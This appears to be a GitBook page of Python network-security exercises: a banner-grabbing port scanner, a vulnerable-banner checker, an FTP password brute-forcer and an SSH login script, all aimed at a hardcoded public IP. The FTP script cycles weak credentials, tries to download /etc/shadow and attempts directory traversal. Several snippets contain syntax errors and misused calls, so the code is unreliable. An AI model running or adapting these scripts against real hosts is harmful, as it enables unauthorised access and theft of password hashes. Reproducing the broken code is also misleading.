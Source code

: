 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# paramiko/FTP/SSH

**port scanner**

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (20).jpg" alt=""><figcaption></figcaption></figure>

</div>

```python
import socket

sock=socket.socket()
ip="146.59.35.163"
ports=[21,22,25,80]

for port in ports:
  sock.connect((ip,port))
  sock.send("aa".encode())
  sock.settimeout(4)
  info = sock.recv(2048).decode()
  print(info)
  sock.close()
```

```python
import socket

def grab(ip_address, port):
  try:  
    s=socket.socket()
    s.connect((ip_address,port))
    banner=s.recv(1024)
    s.close()
    return banner
  except: 
    return''
    
def main():
  ports=[22,21,80]
  for port in ports:
    ip_address="146.59.35.163"
    print(f"on {port} : {grab(ip_address,port)}")
    
if __name__=='__main__':
  main()
```

{% code fullWidth="true" %}
```python
import socket
import argparse
import re
parser = argparse.ArgumentParser(description = 'Odczytanie banera serwera')
# Parametry
parser.add_argument("--target", dest = "target", help = "adres IP", required = True)
parser.add_argument("--port", dest = "port", help = "port", type = int, required = True)
parsed_args = parser.parse_args()
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((parsed_args.target, parsed_args.port))
sock.settimeout(2)
query = "GET / HTTP/1.1\nHost: " + parsed_args.target + "\n\n"
http_get = bytes(query, 'utf-8')
data = ''
### plik banery musi być w systemie
with open('banery.txt', 'r') as file:
    vulnbanners = file.readlines()
try:
    sock.sendall(http_get)
    data = sock.recvfrom(1024)
    data = data[0]
    print(data)
    headers = data.splitlines()
    for header in headers:
        try:
            if re.search('Serwer:', str(header)):
                print("*****" + header.decode("utf-8") + "*****")
            else:
                print(header.decode("utf-8"))
        except Exception as exception:
            pass
        for vulnbanner in vulnbanners:
            if vulnbanner.strip() in str(data.strip().decode("utf-8")):
                print('Serwer jest zagrożony!', vulnbanner)
                print('Adres: ' + str(parsed_args.target))
                print('Port: ' + str(parsed_args.port))
except socket.error:
    print ("Błąd gniazda", socket.errno)
finally:
    sock.close()
```
{% endcode %}

**FTP**

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (21).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/2 (11).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/3 (6).jpg" alt=""><figcaption></figcaption></figure>

</div>

```python
import ftplib
users=["ubuntu","root","adam"]
passwords=["admin","ubuntu","123456"]

#with open("users.txt") as f:
#  usernames=f.read().splitlines()

ftp_client=ftplib.FTP()
#print(ftp_client.getwelcome())
for user in users:
  for password in passwords:
    try
      ftp_client.connect("146.59.35.163",21,timeout=2)
      print(ftp_client.getwelcome())
      print(ftp_client.login(user,password))
      print(f":) {user}:{password}")
      ftp_client.retrbinary("/etc/shadow",open("shadow_attack.txt","wb").write())
      ftp_client.cwd("../../../../../../../")
      ftp_client.voidcmd("TYPE 1")
      ftp_client.nlst()
      ftp_client.size()
    except Exception as e:
      print(f"{e} dla {user}:{password}")
```

**SSH**

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (22).jpg" alt=""><figcaption></figcaption></figure>

</div>

sudo apt install openssh

sudo service ssh start

sudo service ssh status

pip install paramiko

```python
import paramiko
import getpass

target="146.59.35.163"
user="ubuntu"
password=getpass.getpass() #input()
try:
  ssh_client=paramiko.SSHClient()
  paramiko.common.logging.basicConfig(level = paramiko.common.DEBUG)
  ssh_client.load_system_host_keys()
  ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
  rsp=ssh_client.connect(target,port = 22, username = user, password = password)
  print(rsp)
  stdin, stdout, stderr = ssh_client.exec_command("ls -al")
  print(stdout.read().decode()
  transport=ssh_client.get_transport()
  sec_opt=transport.get_security_options()
  print(sec_opt.ciphers)
except Exception as e:
  print(e)
```
